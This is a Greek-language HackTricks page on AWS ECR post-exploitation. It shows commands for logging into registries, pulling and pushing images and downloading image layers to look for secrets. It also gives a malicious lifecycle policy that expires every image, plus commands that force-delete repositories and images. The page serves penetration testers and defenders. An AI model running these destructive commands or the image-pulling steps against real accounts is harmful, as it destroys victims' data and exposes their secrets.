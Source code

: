 # AWS - ECR Post Exploitation

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## ECR

Για περισσότερες πληροφορίες ελέγξτε

{% content-ref url="../aws-services/aws-ecr-enum.md" %}
[aws-ecr-enum.md](../aws-services/aws-ecr-enum.md)
{% endcontent-ref %}

### Σύνδεση, Pull & Push

{% code overflow="wrap" %}
```bash
# Docker login into ecr
## For public repo (always use us-east-1)
aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws/<random-id>
## For private repo
aws ecr get-login-password --profile <profile_name> --region <region> | docker login --username AWS --password-stdin <account_id>.dkr.ecr.<region>.amazonaws.com
## If you need to acces an image from a repo if a different account, in <account_id> set the account number of the other account

# Download
docker pull <account_id>.dkr.ecr.<region>.amazonaws.com/<img_name>:latest
## If you still have the error "Requested image not found"
## It might be because the tag "latest" doesn't exit
## Get valid tags with:
TOKEN=$(aws --profile <profile> ecr get-authorization-token --output text --query 'authorizationData[].authorizationToken')
curl -i -H "Authorization: Basic $TOKEN" https://<account_id>.dkr.ecr.<region>.amazonaws.com/v2/<img_name>/tags/list

# Inspect the image
docker inspect sha256:079aee8a89950717cdccd15b8f17c80e9bc4421a855fcdc120e1c534e4c102e0

# Upload (example uploading purplepanda with tag latest)
docker tag purplepanda:latest <account_id>.dkr.ecr.<region>.amazonaws.com/purplepanda:latest
docker push <account_id>.dkr.ecr.<region>.amazonaws.com/purplepanda:latest

# Downloading without Docker
# List digests
aws ecr batch-get-image --repository-name level2 \
--registry-id 653711331788 \
--image-ids imageTag=latest | jq '.images[].imageManifest | fromjson'

## Download a digest
aws ecr get-download-url-for-layer \
--repository-name level2 \
--registry-id 653711331788 \
--layer-digest "sha256:edfaad38ac10904ee76c81e343abf88f22e6cfc7413ab5a8e4aeffc6a7d9087a"
```
{% endcode %}

Μετά τη λήψη των εικόνων θα πρέπει να **ελέγξετε αν περιέχουν ευαίσθητες πληροφορίες**:

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/docker-forensics" %}

### `ecr:PutLifecyclePolicy` | `ecr:DeleteRepository` | `ecr-public:DeleteRepository` | `ecr:BatchDeleteImage` | `ecr-public:BatchDeleteImage`

Ένας επιτιθέμενος με οποιαδήποτε από αυτές τις άδειες μπορεί να **δημιουργήσει ή να τροποποιήσει μια πολιτική κύκλου ζωής για να διαγράψει όλες τις εικόνες στο αποθετήριο** και στη συνέχεια να **διαγράψει ολόκληρο το αποθετήριο ECR**. Αυτό θα είχε ως αποτέλεσμα την απώλεια όλων των εικόνων κοντέινερ που είναι αποθηκευμένες στο αποθετήριο.
```bash
bashCopy code# Create a JSON file with the malicious lifecycle policy
echo '{
"rules": [
{
"rulePriority": 1,
"description": "Delete all images",
"selection": {
"tagStatus": "any",
"countType": "imageCountMoreThan",
"countNumber": 0
},
"action": {
"type": "expire"
}
}
]
}' > malicious_policy.json

# Apply the malicious lifecycle policy to the ECR repository
aws ecr put-lifecycle-policy --repository-name your-ecr-repo-name --lifecycle-policy-text file://malicious_policy.json

# Delete the ECR repository
aws ecr delete-repository --repository-name your-ecr-repo-name --force

# Delete the ECR public repository
aws ecr-public delete-repository --repository-name your-ecr-repo-name --force

# Delete multiple images from the ECR repository
aws ecr batch-delete-image --repository-name your-ecr-repo-name --image-ids imageTag=latest imageTag=v1.0.0

# Delete multiple images from the ECR public repository
aws ecr-public batch-delete-image --repository-name your-ecr-repo-name --image-ids imageTag=latest imageTag=v1.0.0
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
